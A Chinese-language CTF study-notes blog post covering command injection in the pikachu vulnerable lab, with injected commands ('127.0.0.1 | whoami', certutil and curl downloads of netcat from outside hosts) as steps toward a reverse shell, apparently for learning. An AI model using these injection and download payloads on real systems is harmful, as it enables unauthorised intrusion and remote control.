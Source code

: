 ```yaml
---
title: 20250112CTF学习笔记38
date: 2025-01-12
tags:
 - CTF
 - CTFLearn
categories:
   - 命理学 Numerology
isShowComments: true
publish: true






















---
```


<Boxx/>

从0开始学习CTF，了解CTF基本规则、方法，这是开始打卡学习的第54天

今日内容：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

[[toc]]

- 小迪安全视频地址【[🔗传送门]([https://www.bilibili.com/video/BV123yAYMEwb/)】

<!-- more -->

# 第24章：基础入门-反弹SHELL&带外查询&正反向连接&防火墙出入站&文件下载

## 防火墙出入站

书接上回

我们尝试用IP地址拼接命令的方式，中间用管道符连接。我们在输入框中输入以下内容：

```
127.0.0.1 | whoami
```

![image-20250112201835751](/img/ctfLearn/image-20250112201835751.png)

如图所示，如果是用管道符连接的话，会不执行命令1，只执行命令2，利用这种特性，我们可以让他做反弹Shell，将权限给到我们入侵方。

其次，这里系统是用的Windows部署的`phpStudy`和`pikachu漏洞平台`，而Windows是没有自带nc工具的，我们需要做上传文件，去将nc上传到服务器。

这里上传文件的地方，我们可以转换思路，既然可以用命令，那就可以用下载，比如Linux的wget、curl，或者Windows的PowerShell、cmd的certutil.exe等。

### 整理思路：

1. 判断是不是Windows系统，这里我们刚才在执行`whoami`时，返回的用户是`administrator`(我认为这样判断不严谨)

2. Windows没有自带的nc工具，需要想办法上传nc工具。

3. 通过下载的方式将nc送到这台Windows上。

4. 我们拼接命令，用`IP+管道符+下载命令`的形式，视频中演示的是下载小迪提前准备好的服务器上的nc工具

   ```cmd
   127.0.0.1 | certutil.exe -urlcache -split -f http://47.94.346.117:80/nc.exe c:\\nc.exe
   ```

   >  Windows上没有nc工具，需要自己下载一个nc.exe工具【[下载地址](https://eternallybored.org/misc/netcat/)】，使用命令时如果不加环境变量就要写成nc.exe

   这里我们没有提前准备服务器，懒得找个服务器放这些，就用官方的下载地址凑活一下，也能用。我们换种方式，用`curl -O`的方式应该也是可以的，应该是通用的。
   
   ```cmd
   127.0.0.1 | curl https://eternallybored.org/misc/netcat/netcat-win32-1.11.zip -o c:/Users/xxx/Desktop\netcat.zip
   ```
   
   😶虽然成功下载了，但问题是从官网下载的是个安装包，还没解压，不好搞呀
   
   😫还有个问题，我的虚拟机是以前的工作用的，这有当时公司的杀毒软件，下载的时候报了弹窗，好烦。
   
   没办法，只能重新装一个Win10的虚拟机了，这老东家的杀软卸不掉

好累呀，重装了个系统，phpstudy和pikachu，好烦，今天先休息了






